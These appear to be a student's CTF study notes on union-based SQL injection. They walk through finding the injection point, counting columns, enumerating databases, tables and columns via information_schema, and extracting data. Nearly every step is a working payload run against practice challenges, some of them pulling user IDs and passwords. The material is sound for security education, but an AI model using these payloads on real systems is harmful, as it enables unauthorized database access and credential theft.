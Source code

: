 # Union SQL Injection

## Part 1. How to solve CTF
1. You have to find the reason for the problem.
2. check step by step - debugging
3. [Beginners Guide to Web Hacking CTFs](https://medium.com/@isaacwangethi30/beginners-guide-to-web-hacking-ctfs-9ef04e7c5df5)

## Part 2. CTF Solution
1. Admin is mine
- It blocks the login page on JavaScript.
2. Burp Suite = how to modify the response
3. Countermeasure of SQL Injection = Prepared Statement

## Part 3. SQL Injection - Data Extraction
1. The place where we use data in the database
2. The data display or not
- Display = Board
- Not display = login, ID double check
3. Data Extraction
- It brings all data, but it cannot bring other tables
```javascript
select * from board where idx= '______' or '1' = '1'
```
- union  = it can use the select function again, and the column number must be the same
ex) select pass from member union select id from member
ex) select id, pass from member union select 1,2
- order by = sort
ex) select ~~~ order by [column name]
ex) select id from member order by id

## Part 4. Union SQL Injection
- Union SQL Injection Process
1. Find out the point of the SQL Injection
* Type the part of words
```javascript
select * from table where name like '%______%'
```
```javascript
over%' and '1%' = '1
```
2. Find the number of Columns
* Find out how many columns it is to type sequence numbers
```javascript
over%' order by 1 #
```
3. Find the number of print column location
* It shows the displayed numbers
```javascript
over%' union select 1,2,3,4 #
```
* select pass from member
```javascript
over%' union select 1,pass,3,4 #
```
4. Find DB name: segault_sql
```javascript
select database()
over%' union select 1,database(),3,4 #
```
5. Find Table name
```javascript
information_schema.tables
select table_name from information_schema.tables where table_schema = 'DB Name'
over%' union select 1,table_name,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
6. Find Column name
```javascript
select column_name from information_schema.columns where table_name = 'table name'
over%' union select 1,column_name,3,4 from information_schema.columns where table_name = 'member' #
```
7. Find Data
```javascript
select id, pass from member
over%' union select 1, id, pass, 4 from member
```

## Part 5 - Assignment
1. Review Union SQL Injection (HTTP://ctf.segfaulthub.com:1020/sqlInjection3.php)

2. dol dol data (only one result) (HTTP://ctf.segfaulthub.com:1020/sqlInjection_2_1.php)<br>

a. Find out the point of the SQL Injection
```javascript
1234' or '1' ='1
```
b. Find the number of columns
```javascript
1234' order by 4 #
```
c. Find the number of print column locations
```javascript
1234' union select 1,2,3,4 #
```
d. Find DB name
```javascript
1234' union select database(),2,3,4 #
```
e. Find Table name
```javascript
1234' union select table_name,2,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
f. Find column name
```javascript
1234' union select column_name,2,3,4 from information_schema.columns where table_name = 'member' #
```
g. Find Data
```javascript
0000' union select id,pass,email,info from member where id = 'doldol' #
```

3. CTF questions<br>
* SQL Injection 1
a. Find out the point of the SQL Injection
```javascript
ad%' and 1=1 #
```
b. Find out the number of columns
```javascript
ad%' order by 4 #
```
C. Find out the number of print column locations
```javascript
ad%' union select 1,2,3,4 #
```
d. Find DB name
```javascript
ad%' union select database(),2,3,4 #  => 	sqli_1
```
e. Find table name
```javascript
ad%' union select table_name,2,3,4 from information_schema.tables where table_schema = 'sqli_1' #
```
f. Find column name
```javascript
ad%' union select column_name,2,3,4 from information_schema.columns where table_name = 'flag_table' #
```
g. Find data
```javascript
ad%' union select flag, 2, 3, 4 from flag_table #
```

*. SQL Injection 
a. The point? = When I typed nomaltic, the information showed "My name is normaltic", but when I typed "admin", it doesn't show anything. Which means, depending on the name, the information changes. So, when it tried SQL injection "admin' or '1", it showed "my name is normaltic"
b. The number of columns?
```javascript
admin' order by 6 #
```
c. location?
```javascript
admin' union select 1,2,3,4,5,6 #   => only showing "6"
```
d. database?
```javascript
admin' union select 1,2,3,4,5,database() #    => sqli_5
```
e. table? = flag_honey
```javascript
admin' union select 1,2,3,4,5,table_name from information_schema.tables where table_schema = 'sqli_5' #     
```
f. column name? = flag
```javascript
admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'flag_honey' #
```
g. data? = kkkkkkk_Not Here!
```javascript
admin' union select 1,2,3,4,5,flag from flag_honey #
```
h. other data?
```javascript
admin' union SELECT 1, 2, 3, 4, 5, group_concat(table_name) from information_schema.tables where table_schema = 'sqli_5' #
```
- [Find hidden information](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)
i. other data?
```javascript
admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'secret' #
```
j. other data?
```javascript
admin' union select 1,2,3,4,5,flag from secret #    => NONONO~~~~
```
k. other data?
```javascript
admin' union select 1,2,3,4,5,group_concat(flag) from secret #
```

4. Web development
- mypage
